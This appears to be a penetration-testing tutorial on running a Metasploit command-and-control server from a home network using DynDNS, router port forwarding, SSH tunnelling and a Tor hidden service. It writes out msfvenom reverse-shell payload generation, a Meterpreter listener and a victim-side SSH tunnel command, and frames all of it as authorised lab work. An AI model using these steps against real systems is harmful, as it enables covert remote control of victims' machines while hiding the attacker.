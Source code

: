 # C2 Server From the Home Network: A Complete Guide Using Home Router Configuration

## Introduction
Have you ever faced the challenge of testing Remote Code Execution (RCE) vulnerabilities or antivirus bypass techniques on Windows clients when your testing environment doesn't have a public IP address? This is a common scenario for penetration testers and security researchers working from home networks. In this comprehensive guide, I'll demonstrate how to establish a reverse shell connection back to your local Command and Control (C2) server using only a standard home router - all with a zero-cost setup.

## Understanding the Challenge
When conducting security assessments or research, establishing a reverse shell from a target system back to your testing machine can be problematic if you're working from a private network. Traditional methods assume that you have a publicly accessible server. However, this is not necessarily true, as you will see shortly.

## Prerequisites and Router Requirements
To implement this solution, your router must support two essential features:
 - **Dynamic DNS (DynDSN)** - Maps a domain name to your changing public IP address
 - **Port Forwarding** - Redirects external connections to internal network devices

Most modern home routers include these features by default. The examples in this guide use a FRITZ!Box 7530AX from German manufacturer AVM, but the concepts apply to any router with similar capabilities.

### Step 1: Setting Up Dynamic DNS
#### Why Use DynDNS?

Since ISPs typically assign dynamic public IP addresses that change periodically, relying on the IP address directly is impractical. DynDNS solves this by providing a stable domain name that automatically updates to point to your current public IP.

#### Configuration Process
1. **Register for a DynDNS Service**: Use a domain provider that supports this feature, or use a free service like no-ip.com to obtain a free domain
2. **Router Configuration**: Access you router's web interface and navigate to the DynDNS settings sectioin

![DynDNS](./img/001_01_dyndns.png)

*FRITZ!Box GUI: the "Use DynDNS" checkbox must be enabled, and you'll need to enter your domain name, username, and password from your DynDNS provider*

### Step 2: Configuring Port Forwarding
Port forwarding is the mechanism that routes external connections from the internet to specific devices on your internal network.

#### Creating a New Port Forwarding Rule
![Port Forwarding](./img/001_03_port_forwarding.png)

*FRITZ!Box GUI: you have to add new device from the list of available hosts in your home network*

#### Detailed Port Forwarding Configuration
![Port Forwarding](./img/001_04_port_forwarding.png)

*FRITZ!Box GUI: you have to specify protocol depending on your requirements and port to device the external connection will be forwarded to. Enable Sharing must be checked to activate the rule*

#### Final Port Forwarding Setup
![Port Forwarding](./img/001_02_port_forwarding.png)

*FRITZ!Box GUI: Port Sharing setup*

### Step 3: Creating the Reverse Shell Payload
With networking configured, create your reverse shell payload using msfvenom:
```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<either public IP address or DynDNS domain name> lport=1337 -f elf -o met1337.elf
```
This command creates a Linux ELF executable that will connect back to your DynDNS domain on port 1337.

### Step 4: Setting Up the Listener
On your C2 host, start a Metasploit listener:
```
msfconsole -q -x 'use multi/handler ; set payload linux/x64/meterpreter/reverse_tcp ; set lhost <C2's IP>; set lport 1337; exploit'
```

![Port Forwarding](./img/001_06_revshell_simple.png)

*The terminal shows a successful Meterpreter session establishment with session details and available commands*

## Advanced Security: Adding SSH Tunneling
For enhanced security, you can route your reverse shell traffic through an encrypted SSH tunnel.

### SSH Tunnel Configuration
First, set up port forwarding for SSH

![Port Forwarding](./img/001_05_ssh_port_forwarding.png)

*FRITZ!Box's Web Interface: protocol ssh:// and port to device*

Create an SSH tunnel from the victim machine back to your C2 server via SSH local port forwarding:
```
ssh -N -L 127.0.0.1:1337:127.0.0.1:1337 kali@<public IP or DynDNS domain name>
```
When using SSH tunneling, both Metasploit listener and Metasploit beacon should be modified appropriately:

```
msfconsole -q -x 'use multi/handler ; set payload linux/x64/meterpreter/reverse_tcp ; set lhost 127.0.0.1; set lport 1337; set ReverseListenerBindAddress 127.0.0.1; set ReverseListenerBindPort 1337; exploit'
```

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=1337 -f elf -o met1337.elf
```

![Port Forwarding](./img/001_08_established_revershe_shell_over_ssh.png)

*Successfully established a reverse shell connection over an SSH tunnel*

### Maximum Privacy: Adding Tor to the Mix

You can add a privacy level by pushing all traffic over the Tor network.

#### Tor Configuration
The Tor configuration typically involves modifying the /etc/tor/torrc file:
```
ControlPort 9051
CookieAuthentication 1
CookieAuthFileGroupReadable 1

HiddenServiceDir /var/lib/tor/hidden_service_ssh/
HiddenServiceVersion 3
HiddenServicePort 22 192.168.178.51:22
```
After restarting the tor service on your C2 server, check the file /var/lib/tor/hidden_service_ssh/hostname file to find the Tor address of your C2 server.

For establishing an SSH tunnel over Tor, use the torify command as follows:

![Port Forwarding](./img/001_11_ssh_over_tor.png)

*Creating an SSH local port forwarding over the Tor network*

The reverse shell connection remains the same, but traffic now routes through the Tor network for enhanced privacy.

### Conclusion
This guide demonstrates how to establish a reverse shell connection to your local testing environment using standard home networking equipment. By combining DynDNS, port forwarding, and optional security layers like SSH tunneling and Tor, you can create a robust testing infrastructure without requiring expensive hosting solutions.

Remember to use these techniques only in authorized testing environments and always follow responsible disclosure practices when conducting security research.
